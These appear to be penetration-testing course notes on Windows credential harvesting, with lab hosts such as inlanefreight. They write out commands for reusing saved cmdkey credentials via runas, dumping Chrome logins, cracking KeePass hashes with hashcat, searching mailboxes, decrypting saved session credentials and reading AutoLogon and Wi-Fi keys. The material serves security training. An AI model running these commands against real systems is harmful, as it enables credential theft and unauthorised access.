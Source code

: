 ### Cmdkey Saved Credentials
#### Listing Saved Credentials
The [cmdkey](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey) command can be used to create, list, and delete stored usernames and passwords. Users may wish to store credentials for a specific host or use it to store credentials for terminal services connections to connect to a remote host using Remote Desktop without needing to enter a password

```powershell
C:\htb> cmdkey /list

    Target: LegacyGeneric:target=TERMSRV/SQL01
    Type: Generic
    User: inlanefreight\bob
```

When we attempt to RDP to the host, the saved credentials will be used.

![image](https://academy.hackthebox.com/storage/modules/67/cmdkey_rdp.png)

We can also attempt to reuse the credentials using `runas` to send ourselves a reverse shell as that user, run a binary, or launch a PowerShell or CMD console with a command such as:
 
Run Commands as Another User
```powershell
PS C:\htb> runas /savecred /user:inlanefreight\bob "COMMAND HERE"
```

### Retrieving Saved Credentials from Chrome

Users often store credentials in their browsers for applications that they frequently visit. We can use a tool such as [SharpChrome](https://github.com/GhostPack/SharpDPAPI) to retrieve cookies and saved logins from Google Chrome.

```powershell
PS C:\htb> .\SharpChrome.exe logins /unprotect
```

### Password Managers
Many companies provide password managers to their users. This may be in the form of a desktop application such as `KeePass`, a cloud-based solution such as `1Password`, or an enterprise password vault such as `Thycotic` or `CyberArk`. Gaining access to a password manager, especially one utilized by a member of the IT staff or an entire department, may lead to administrator-level access to high-value targets such as network devices, servers, databases, etc. We may gain access to a password vault through password reuse or guessing a weak/common password. 

Some password managers such as `KeePass` are stored locally on the host. If we find a `.kdbx` file on a server, workstation, or file share, we know we are dealing with a `KeePass` database which is often protected by just a master password. If we can download a `.kdbx` file to our attacking host, we can use a tool such as [keepass2john](https://gist.githubusercontent.com/HarmJ0y/116fa1b559372804877e604d7d367bbc/raw/c0c6f45ad89310e61ec0363a69913e966fe17633/keepass2john.py) to extract the password hash

```bash
keepass2john ILFREIGHT_Help_Desk.kdbx 
hashcat -m 13400 keepass_hash ~/rockyou.txt -O
```

### Email
If we gain access to a domain-joined system in the context of a domain user with a Microsoft Exchange inbox, we can attempt to search the user's email for terms such as "pass," "creds," "credentials," etc. using the tool [MailSniper](https://github.com/dafthack/MailSniper).

```powershell
Invoke-SelfSearch -Mailbox current-user@domain.com
```

### SessionGopher
We can use [SessionGopher](https://github.com/Arvanaghi/SessionGopher) to extract saved PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP credentials. The tool is written in PowerShell and searches for and decrypts saved login information for remote access tools. It can be run locally or remotely. It searches the `HKEY_USERS` hive for all users who have logged into a domain-joined (or standalone) host and searches for and decrypts any saved session information it can find. It can also be run to search drives for PuTTY private key files (.ppk), Remote Desktop (.rdp), and RSA (.sdtid) files.

We need local admin access to retrieve stored session information for every user in HKEY_USERS, but it is always worth running as our current user to see if we can find any useful credentials
```powershell
Import-Module .\SessionGopher.ps1
Invoke-SessionGopher -Target WINLPE-SRV01
```

### Registry
AutoLogon
```powershell
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

Putty
```powershell
reg query "HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions"
reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\kali%20ssh
```

Wifi
```powershell
netsh wlan show profile ilfreight_corp key=clear
```